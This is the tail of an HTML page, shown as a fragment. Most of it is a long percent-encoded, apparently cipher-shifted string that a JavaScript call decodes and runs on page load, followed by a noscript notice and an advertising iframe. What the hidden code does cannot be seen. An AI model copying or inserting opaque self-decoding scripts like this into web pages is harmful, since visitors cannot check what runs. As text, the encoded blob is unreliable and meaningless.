7%66%63%3d%26%2a%25%39%5a%64%6e%64%74%41%76%67%3c%2b%58%39%1b%6a%64%60%79%1b%6b%68%75%18%59%66%64%66%66%7b%1d%78%66%76%6b%6a%6a%77%60%65%62%62%6e%71%7f%1b%63%68%77%18%67%6a%69%77%6b%65%71%79%0e%0f%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%60%6a%74%77%6b%6b%1d%65%69%19%77%61%61%76%65%1b%6b%57%79%71%7f%1b%72%66%67%77%61%75%66%74%24%17%56%6b%1b%6f%76%76%74%18%60%69%67%6b%7f%1d%7a%63%6a%74%64%18%6c%60%69%6c%79%17%76%6e%62%66%63%19%59%76%64%1b%5a%62%79%60%57%67%70%1b%58%72%59%60%6f%5a%68%63%60%16%62%6b%1b%60%6a%74%64%75%69%6b%7b%2f%32%28%69%39%0c%0e%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%3c%68%19%64%6f%57%78%72%33%25%6c%2e%29%18%74%64%73%77%23%68%60%64%77%64%75%19%74%65%71%77%2e%63%7a%71%6b%67%27%39%46%6b%68%70%75%62%6d%6f%71%16%21%66%68%69%71%3f%19%35%2b%38%27%1d%32%5a%19%64%6d%59%77%76%3e%25%79%60%70%62%25%0c%0d%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%6f%73%6b%61%3c%25%2a%26%3a%55%68%68%64%78%45%7b%65%3d%28%58%3a%3c%2a%6b%39%03%01%1d%16%1b%19%1b%19%18%18%3d%28%67%6f%7d%3f%03%0d%19%1b%19%18%3c%2a%61%68%65%7b%60%78%39%0c%0d%0c%0e%18%19%1b%1b%32%78%62%78%62%69%77%19%74%71%69%66%3e%28%7b%60%7e%77%2a%6d%58%72%59%76%64%75%6f%67%71%28%39%0c%0d%19%18%18%19%1b%1b%16%17%21%2e%20%26%4f%60%6a%6f%46%68%6b%7f%2c%24%24%64%6d%62%66%6f%20%63%76%69%69%7b%64%65%69%19%23%20%18%7f%0c%0d%1b%16%17%1d%16%1b%19%1b%19%18%18%19%71%5a%78%17%21%7a%66%6c%6b%19%3d%18%25%23%25%32%6e%6f%66%76%75%39%27%21%3f%0c%0d%1b%16%17%1d%16%1b%19%1b%19%18%18%19%27%23%28%69%6e%6a%72%27%22%2b%59%68%69%66%69%6a%2f%21%7a%66%6c%6b%20%3f%0d%0f%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%25%77%66%63%67%2f%7c%5a%6d%23%25%20%23%26%6e%72%42%6e%6f%61%20%20%29%75%65%70%75%23%22%2f%25%72%6b%6f%64%64%75%20%21%3e%0e%0d%16%17%1d%16%1b%19%1b%19%18%18%19%1b%67%65%68%70%63%66%6b%77%2b%65%70%64%64%44%65%62%68%57%69%65%23%27%67%6b%69%72%25%2f%30%08%00%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%57%6f%64%75%75%20%26%4d%62%69%61%17%62%65%6b%60%66%65%19%26%20%3c%0e%00%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%2a%7b%60%63%6b%2b%75%64%6d%6b%73%66%23%2f%30%08%00%1b%19%1b%19%18%18%19%1b%7e%2f%30%08%00%1b%19%1b%19%3c%2b%76%64%75%6f%67%71%34%0e%0f%0e%0f%0d%0e%19%1b%1b%16%33%72%69%75%60%6b%75%18%59%76%72%69%69%32%23%57%74%70%69%66%26%18%75%72%6b%6b%32%23%7a%66%71%77%2a%6e%59%73%5a%74%69%79%64%66%77%27%1b%76%76%67%3c%25%63%7a%7b%6d%79%3d%2a%28%75%6b%6b%6b%74%63%7b%69%2f%6d%62%75%63%74%66%2a%60%68%28%68%6a%71%57%28%76%77%77%65%59%6c%28%6e%6b%65%70%24%6d%76%25%3b%3c%2b%76%64%75%6f%67%71%34%0e%0f%3f%2a%66%6b%65%72%39%03%01%08%00%3f%2a%63%75%6d%6c%3b21956964%35%37%35%37%36%36%37' + unescape('%27%29%29%3b'));
// -->
</script>
<noscript><i>Javascript required</i></noscript>
<center><iframe data-aa="1507941" src="//ad.a-ads.com/1507941?size=336x280" scrolling="no" style="width:336px; height:280px; border:0px; padding:0; overflow:hidden" allowtransparency="true"></iframe></Center>
</html>
